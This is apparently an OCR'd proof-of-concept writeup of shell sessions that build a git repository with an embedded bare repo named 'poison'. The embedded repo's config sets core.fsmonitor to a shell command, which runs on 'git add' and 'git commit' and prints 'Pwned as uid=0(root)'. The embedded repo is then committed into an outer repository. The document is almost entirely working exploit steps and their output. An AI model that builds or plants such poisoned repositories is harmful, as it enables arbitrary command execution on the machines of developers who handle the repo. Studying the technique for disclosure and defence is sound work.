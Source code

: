 ```plain
root@f3eed6860a67:~# mkdir ~/malicious

root@f3eed6860a67:~# cd ~/malicious/

root@f3eed6860a67:~/malicious# git init
Initialized empty Git repository in /root/malicious/.git/

root@f3eed6860a67:~/malicious# mkdir poison

root@f3eed6860a67:~/malicious# cd poison/

root@f3eed6860a67:~/malicious/poison# echo 'ref: refs/heads/main' > HEAD

root@f3eed6860a67:~/malicious/poison# cat > config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	worktree = "worktree"
	fsmonitor = "echo \"Pwned as $(id)\">&2;false"
^D

root@f3eed6860a67:~/malicious/poison# mkdir objects refs worktree

root@f3eed6860a67:~/malicious/poison# touch worktree/.gitkeep

root@f3eed6860a67:~/malicious/poison# git add .gitkeep
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)

root@f3eed6860a67:~/malicious/poison# git commit -m 'add gitkeep'
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
[main (root-commit) 4d195f3] add gitkeep
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 .gitkeep
```

Add and commit the embedded bare repo to the regular repo

```plain
root@f3eed6860a67:~/malicious/poison# cd ..

root@f3eed6860a67:~/malicious# git add poison/

root@f3eed6860a67:~/malicious# git commit -m 'add poison'
[main (root-commit) f8a791f] add poison
 11 files changed, 14 insertions(+)
 create mode 100644 poison/COMMIT_EDITMSG
 create mode 100644 poison/HEAD
 create mode 100644 poison/config
 create mode 100644 poison/index
 create mode 100644 poison/logs/HEAD
 create mode 100644 poison/logs/refs/heads/main
 create mode 100644 poison/objects/4d/195f35c689356e0a86bfd7e31e75d02d721170
 create mode 100644 poison/objects/d5/64d0bc3dd917926892c55e3706cc116d5b165e
 create mode 100644 poison/objects/e6/9de29bb2d1d6434b8b29ae775ad8c2e48c5391
 create mode 100644 poison/refs/heads/main
 create mode 100644 poison/worktree/.gitkeep
```
